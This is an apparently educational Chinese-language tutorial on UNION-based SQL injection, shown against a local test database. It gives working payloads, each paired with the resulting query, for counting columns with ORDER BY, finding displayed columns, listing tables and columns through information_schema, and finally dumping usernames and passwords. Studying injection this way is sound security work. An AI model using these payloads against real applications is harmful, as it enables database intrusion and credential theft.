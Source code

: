 ### 1、在一条sql语句中，执行多条查询
```yaml
UNION操作符选取不重复的值。如果允许重复的值，请使用UNION ALL
渗透大多数情况，使用UNION ALL
```
```sql
SELECT id,username FROM `user` WHERE id = 1 
union all 
SELECT id,username FROM `user` WHERE id = 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_10.png)
### 2、information_schema数据库中有三个表非常重要
```yaml
1.schemata:表里包含所有数据库的名字 
2.tables:表里包含所有数据库的所有的表，默认字段为table_name 
3.columns:三个列非常重要
    TABLE_SCHEMA:数据库名 
    TABLE_NAME:表名
    COLUMN_NAME:字段名
```
### 3、联合注入的过程1：
#### 使用order by判断注入点，联合查询的多条语句，列数必须一致
#### 3.1 首先要了解order by，排序
```sql
# 以第一列id为基础，进行排序
SELECT id,username FROM `user` ORDER BY 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_11.png)
```sql
# 以第二列，username为基础，进行排序
SELECT id,username FROM `user` ORDER BY 2;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_12.png)
```sql
# 以第三列进行排序，报错
SELECT id,username FROM `user` ORDER BY 3;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_13.png)
#### 3.2 通过上面order by的方式，来判断sql语句返回的数据，有多少列
```sql
1' order by 12 #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_14.png)
```sql
select * from user where username='1' order by 13 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_15.png)
```yaml
通过以上数据可以证明，需要渗透的数据库表格中，一共有12列
```
### 4、联合注入的过程2：
### 判断是整型还是字符型
```yaml
判断是整形还是字符型，参考sql注入的2，3号文档
```
### 5、联合注入的过程3:
### 判断显示位，就是哪一列在前端进行了展示
#### 5.1 通过上面的举例，可以看出，一共有12列，那么，可以通过union all，来判断哪几位展示给了前端
```sql
1' union all select 1,2,3,4,5,6,7,8,9,10,11,12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_16.png)
```sql
select * from user where username='1' union all select 1,2,3,4,5,6,7,8,9,10,11,12 #';
```
![image](https://github.com/498946975/Security/blob/master/images/sql_17.png)

### 6、联合注入的过程4:
### 获取数据库的名称,和数据库版本
#### 6.1 通过以上的数据，在第二列和第11列，输入函数，显示对应的信息
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_18.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,version(),12 #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_19.png)

### 7、联合注入的过程5:
### 巧妙使用group_concat(table_name)函数，获取所有表的名称
#### 7.1 把所有的table_name拼接起来，在第11列进行展示
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi'  #
```
![image](https://github.com/498946975/Security/blob/master/images/sql_20.png)
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,group_concat(table_name),12 from information_schema.tables where table_schema = 'test_fastapi' #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_21.png)
### 8、联合注入的过程6:
### 使用column_name，查询某一个表的，所有列的名称
#### 8.1 通过以上的数据，可以查到，有个表叫user，下面查询，user这个表的所有列的名称
```sql
1' union all select 1,database(),3,4,5,6,7,8,9,10,column_name,12  from information_schema.columns where table_schema = 'test_fastapi' and table_name = 'user' #
```
```sql
select * from user where username='1' union all select 1,database(),3,4,5,6,7,8,9,10,column_name,12 from information_schema.columns where table_schema = 'test_fastapi' and table_name = 'user' #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_24.png)

### 9、联合注入的过程7:
### 查询user表的用户名和密码
```sql
1' union all select 1,username,3,4,5,6,7,8,9,10,pwd,12 from user #
```
```sql
select * from user where username='1' union all select 1,username,3,4,5,6,7,8,9,10,pwd,12 from user #'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_25.png)
